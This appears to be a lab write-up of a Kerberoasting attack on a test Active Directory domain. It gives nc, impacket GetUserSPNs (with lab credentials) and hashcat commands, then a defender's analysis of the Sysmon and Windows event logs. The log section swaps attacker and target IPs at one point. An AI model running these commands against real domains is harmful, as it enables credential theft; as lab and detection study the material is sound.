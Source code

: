 # Active Directory Attack Playbook (Kerberos-based SPN Extraction and Credential Compromise)

## **Overview**

- **Target:** Active Directory Domain Controller (within the soc.lab domain)
   - IP Address: 192.168.10.10
   - Domain: SOC.LAB
   - 
- **Attacker:** Kali 
   - IP Address: 192.168.20.30
## **Objective** 
The objective of this attack was to enumerate and extract Service Principal Names (SPNs) from the Active Directory environment and attempt to crack the Kerberos TGS hashes to gain unauthorized access to domain accounts.
Following the other attacks, we are already know the credentials from an User and the Active Directory Domain.

## Attack Execution Timeline:

- Checked that Kerberos (port 88) is open:
```bash
nc -vz 192.168.10.10 88
```
- Update the default DNS ip to point directly to the Domain Controller.

- Run GetUserSPNs.py from the mpacket toolkit to request SPNs and attempt Kerberos TGS hash extraction:
```bash
python3 GetUserSPNs.py SOC.LAB/labadmin:Root1234! -request
```
Output:

![hash](https://github.com/user-attachments/assets/25122eab-7eb9-4de7-a62d-2ceeda7e50c9)

- After that I cracked the Kerberos TGS Hash using hashcat with rockyou.txt, and saved on a cracked.txt file:
```bash
hashcat -m 13100 spn_hash.txt /usr/share/wordlists/rockyou.txt --force -o cracked.txt
```



## **Monitoring Windows Logs**

I started watching Sysmon Logs Analysis and identified multiple Event ID 3 entries in Sysmon logs, which makes it suspisious, knowing its coming from the same IP, and from external zone (DMZ): 

- All connections originated from IP 192.168.10.10, targeting 192.168.20.30.

- Different ephemeral ports were used, suggesting automated scanning or even communication.

![multipleSysmonlogs](https://github.com/user-attachments/assets/01ab753c-f8f0-42d1-8882-62f2a652937a)



** Windows Security Logs Analysis:

Event ID 4769 – Kerberos Service Ticket Request:

Found a large number of Event ID 4769 entries from the same source IP 192.168.10.10.

The requests were directed to various user accounts in the SOC.LAB domain.

This suggests the use of a Kerberoasting attack to extract Service Principal Names (SPNs).

Event ID 4634 – Logoff:

Immediately after the Kerberos ticket requests, there was an Event ID 4634.

User: SOC\labadmin

Logon Type: 3 (Network Logon – consistent with remote access).

This indicates a potential attacker logging off after completing ticket extraction.

Conclusion:
The log analysis confirms the execution of a Kerberoasting attack. The attacker, using IP 192.168.20.30, scanned the Domain Controller (192.168.10.10), extracted SPNs, and likely proceeded to crack the Kerberos TGS hashes offline. The sequence of Event IDs (1, 3, 4769, and 4634) aligns with common Kerberoasting techniques used for credential compromise.
